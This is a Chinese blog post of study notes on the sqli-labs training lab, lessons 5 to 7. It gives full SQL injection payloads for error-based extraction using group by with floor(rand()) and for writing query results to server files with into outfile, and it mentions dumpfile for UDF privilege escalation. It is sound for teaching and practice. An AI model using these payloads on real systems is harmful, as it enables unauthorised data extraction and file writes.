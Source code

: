 ```yaml
---
title: sqli labs lesson 5~7 学习
date: 2016-08-25 19:26:33
tags:
- 渗透测试
- SQL 注入
categories: SQL 注入
---
```

# 1 lesson 5：基于错误-单引号二次注入
## 1.1 测试
- 参数 $id = `1'`
- URL `http://localhost/sqli-labs-master/Less-5/?id=1%27`
- 错误 `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1`
- sql 语句 `select * from tables where id = '$id' limit 0,1` ,参数在单引号内

![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f7684wu1ogj3105034gmk.jpg)

## 1.2 union 查询
- 参数 $id = `' union select 1,2,3%23`
- URL `http://localhost/sqli-labs-master/Less-5/?id=%27%20union%20select%201,2,3%23`
- sql 语句：`select col1,col2,col3 from tables where id = '' union select 1,2,3%23' limit 0,1`

![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f768d41k3hj30c903xmx8.jpg)
but.....   页面上并没有显示数据库结果的地方，即使通过 union 查询到了数据库表，字段信息，也无法显示在页面上。
因此，需要构造 <font color="red">一种语法正确（在编译时是正确的）而运行时会出错的sql查询语句，并且错误信息中包含数据局相关信息</font>。一些天才的研究人员发现，可以使用聚合函数 group by子句，并结合随机函数rand()，在运行过程中有可能出错。

## 1.3 构造编译正确，运行可能出错的sql
### 1.3.1 随机函数rand()
sql | 结果
-- | --
select rand() | 0~1 之间的随机值
select rang()*2 | 0~2 之间的随机值
select floor(rand()*2*) | 0 1 两个整数随机出现
select database() | 当前数据库
select concat((select database()),0x20,floor(rand()*2))a | {当前数据库}{空格}{0 1中的一个}
![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f768u2z3a9j30b606wt8v.jpg)

### 1.3.2 group by
`select 1,count(*),concat((select database()),0x20,floor(rand()*2))a from information_schema.tables group by a`
![](https://ww1.sinaimg.cn/large/005CA6ZCgw1f768yvdsh6j30je077jrw.jpg)

重复执行多次，得到的 count(*) 不一样
![](https://ww1.sinaimg.cn/large/005CA6ZCgw1f7690aziijj30jd079gm8.jpg)

最终会出现如下错误：
![](https://ww3.sinaimg.cn/large/005CA6ZCgw1f76920orxwj30kc0a6dhf.jpg)

错误信息中会显示当前数据库名 information_schema

<font color="red">产生错误的原因：</font>
group by 语句报错的原因是 `floor(rand()*2)` 的不确定性，即结果可能为 0 也可能为 1。group by key 的原理是循环读取数据的每一行，将结果保存在临时表中，读取每一行的key时，如果key在于临时表中，则不更新临时表中的数据；如果该key不在于临时表中，则在临时表中插入key所在行的数据。
`group by floor(rand() * 2)`  出错的原因是key是个随机数，检测临时表中key是否存在时计算了一下 `floor(rand()*2)` 可能 为0，如果此时临时表只有key为1的行不存在key为0的行，那么数据库要将该条记录插入临时表，由于是随机数，插时又要计算一下随机值，此时 `floor(rand()*2)`结果可能为1，就会导致插入时冲突而报错。即检测时和插入时两次计算了随机数的值不一致，导致插入时与原本已存在的产生冲突的错误。

## 1.4 获取数据库信息
- 参数 $id = `' union select 1,count(*),concat((select database()),0x20,floor(rand()*2))a from information_schema.tables group by a%23`
- 网址  ` http://localhost/sqli-labs-master/Less-5/?id=%27%20union%20select%201,count(*),concat((select%20database()),0x20,floor(rand()*2))a%20from%20information_schema.tables%20group%20by%20a%23 `
- sql 语句：`select col1,col2,col3 from tables where id = '' union select 1,count(*),concat((select database()),0x20,floor(rand()*2))a from information_schema.tables group by a%23' limit 0,1`

![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f769ox9w4ij30cb03x3yl.jpg)

刷新多次之后，出现如下错误：
![](https://ww2.sinaimg.cn/large/005CA6ZCgw1f769kss9wtj30cc03waa8.jpg)

<font color="red">将 database() 换成任何想获取的信息</font>
例如表名，则参数为
$id = `' union select 1,count(*),concat((select group_concat(distinct table_name) from information_schema.tables where table_schema = database()),0x20,floor(rand()*2))a from information_schema.tables group by a%23`
![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f769qoh0xbj30h703xdg6.jpg)

其他信息获取方式参见 [sqli labs lesson 1~4 学习](http://huirong.github.io/2016/08/24/sqli-labs-series-part1-4/) lesson 1

# 2 lesson 6 基于错误-双引号二次注入
$id = `" union select 1,count(*),concat((select database()),0x20,floor(rand()*2))a from information_schema.tables group by a%23`

将单引号换成双引号，其他同上。

# 3 lesson 7 outfile 下载数据库
## outfile 函数
- select...into outfile 'file_name'形式的 select 可以把被选择的行写入一个文件中。该文件被创建到服务器主机上，因此你必须拥有FILE权限，才能使用此语法。
- 输出不能是一个已存在的文件。防止文件数据被篡改。
- 你需要有一个登陆服务器的账号来检索文件。否则 select...into outfile 不会起任何作用。 
- 在UNIX中，该文件被创建后是可读的，权限由MySQL服务器所拥有。这意味着，虽然你就可以读取该文件，但可能无法将其删除

![sql](https://ww3.sinaimg.cn/large/005CA6ZCjw1f76zlw41sbj30g7046t92.jpg)

![hello.txt](https://ww2.sinaimg.cn/large/005CA6ZCgw1f76zal94ldj30g604igml.jpg)
有可能会因为目录没有 file 权限，在文件夹中没有生成 TXT 文件，多试几个目录或文件夹。

若我们想把一个可执行2进制文件用into outfile函数导出，导出后就会被破坏，因为into outfile函数会在行末端写入新行，并且会会转义换行符这样的话这个2进制可执行文件就会被破坏。这时候我们用into dumpfile 就能导出一个完整能执行的2进制文件，into dumpfile 函数不对任何列或行进行终止，也不执行任何转义处理。在udf提权的时候用到的就是dumpfile。但是dumpfile 一次只能导出一行。

## 通过 outfile 获取数据库数据
$id = `1')) union select user(),database(),version() into outfile 'D:\7.txt'%23`

![](https://ww4.sinaimg.cn/large/005CA6ZCjw1f76zl5t95vj30g803o74f.jpg)

虽然页面上会显示错误，但是 D 盘会生成 7.txt 文件
![](https://ww1.sinaimg.cn/large/005CA6ZCgw1f76zj3s9suj30ga04bwez.jpg)

其他信息获取方式参见 [sqli labs lesson 1~4 学习](http://huirong.github.io/2016/08/24/sqli-labs-series-part1-4/) lesson 1

# 4 参考文献
[SQLI-LABS SERIES PART 6,7](http://dummy2dummies.blogspot.com/2012/06/sqli-lab-series-part-6.html)